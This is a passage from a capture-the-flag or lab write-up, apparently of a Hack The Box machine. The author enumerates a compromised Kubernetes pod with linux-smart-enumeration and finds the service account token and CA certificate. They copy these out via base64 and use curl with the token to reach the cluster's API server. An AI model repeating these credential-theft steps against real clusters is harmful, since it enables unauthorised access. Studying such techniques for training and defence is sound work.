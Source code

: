 Well, we are root because we are inside a kubernetes **pod** (a container) <br>

Then i ran linux-smart-enumeration. Since we are in a kubernetes pod is expected that the next steps are towards that tecnologie so i filtered the output to just include **kube** in it

```bash
cmd: ./lse.sh | tee log
cmd: cat log | grep kube

/etc/cron.d/clear-kubectl
/usr/src/app/clear-kubectl
/run/secrets/kubernetes.io
/run/secrets/kubernetes.io/serviceaccount/..data
/run/secrets/kubernetes.io/serviceaccount/namespace
/run/secrets/kubernetes.io/serviceaccount/ca.crt
/run/secrets/kubernetes.io/serviceaccount/token
* * * * * find / -name kubectl -exec rm {} \;
/etc/cron.d/clear-kubectl
/etc/cron.d/clear-kubectl:* * * * * find / -name kubectl -exec rm {} \;
/etc/cron.d/clear-kubectl:* * * * * find / -name kubectl -exec rm {} \;
``` 

We can see a cron to remove kubectl from the container <br>
Checking the folder we see that, at **/run/secrets/kubernetes.io/serviceaccount/**, there's only a folder with 3 files with everything else being symlinks
```bash
cmd: cd ..2021_05_07_04_19_27.974814721
cmd: ls -la
-rw-r--r-- 1 root root 1066 May  7 04:19 ca.crt
-rw-r--r-- 1 root root    7 May  7 04:19 namespace # <- just says default
-rw-r--r-- 1 root root  900 May  7 04:19 token
```

Downloaded the files to my local machine (by b64 encode them and decoding to files because no netcat nor python) <br>

From the [kubernetes docs](https://kubernetes.io/docs/tasks/run-application/access-api-from-pod/) we can verify if we can in fact connect to the master node

```json
cmd: curl --cacert ca.crt --header "Authorization: Bearer $(cat token)" -X GET https://10.10.10.235:8443/api            

{
  "kind": "APIVersions",
  "versions": [
    "v1"
  ],
  "serverAddressByClientCIDRs": [
    {
      "clientCIDR": "0.0.0.0/0",
      "serverAddress": "10.10.10.235:8443"
    }
  ]
}
```
